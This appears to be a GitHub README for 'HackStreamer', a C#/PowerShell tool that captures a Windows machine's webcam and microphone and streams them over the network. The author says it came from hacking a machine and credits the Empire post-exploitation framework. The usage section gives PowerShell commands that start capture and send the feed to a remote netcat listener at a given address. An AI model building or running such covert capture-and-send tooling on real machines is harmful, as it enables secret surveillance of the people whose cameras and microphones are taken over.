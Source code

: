 # HackStreamer
is a webcam🎥+audio🎤 tcp/udp-based streamer from Windows machines.

## WHAT DOES IT DO?
It can stream from webcam/audio devices locally or to a remote host.

## WHY
Because of fun. Once I hacked my own machine and wanted to get a stream from webcam.
But I couldn't. So, then I didn't find the solution and forgot about it for some time.
Recently I remembered it again and started looking for a solution.
Though this project is written in c#, and uses such terms like media filters,
I knew nothing about it at all. I had 0 knowledge in c# and so about the filters.
During the work I learned some basic stuff.

## HOW IT WAS DONE
I was looking for solutions on the internet and the most suitable what I found
was a solution from [Empire Framework](https://github.com/EmpireProject/Empire/blob/master/lib/modules/powershell/collection/WebcamRecorder.py)
But it only could write the stream to a file on a local disk.
Though I liked their idea of including a dll library into a powershell script.
I found the source of that library, it was released in 2002.
I was considering many variants like this one, avicap32.dll or Windows Media Foundation.
And stopped at DirectShow from 2002, as I supposed this should be the most 
supportable.
This project is a compilation of countless internet solutions that I found
while developing it and my own efforts. But it works :)
When the main part responsible for streaming itself was ready I faced another problem.
It could stream or be watched only from Windows based services. So I wrote custom WriterSink,
which can stream over network.
I tested my solution on Windows 7 and Windows 10.

## WHAT'S INCLUDED
Here you can find the source code of the library, it uses `.NET Framework 2.0`
And a ready-to-go-all-included-fully-independent `ps1` script. You can see the basic usage in that script.

## USAGE
The common part on the streaming server should be:
```powershell
> $streamer = new-object Hack.HackStreamer
```

### Then if you want to stream **locally**:
```powershell
> $streamer.Init(@{share=1337})
```
And on the other side:
```sh
$ nc <streaming_host> 1337 | ffplay -
```

### Or if you want to stream **to a remote server**:
Set up a listener:
```sh
$ nc -lnp 4111 | ffplay -
```
Then init:
```powershell
> $streamer.Init(@{send="10.10.13.37:4111"})
```

And the final part:
```powershell
> $streamer.Run()
```
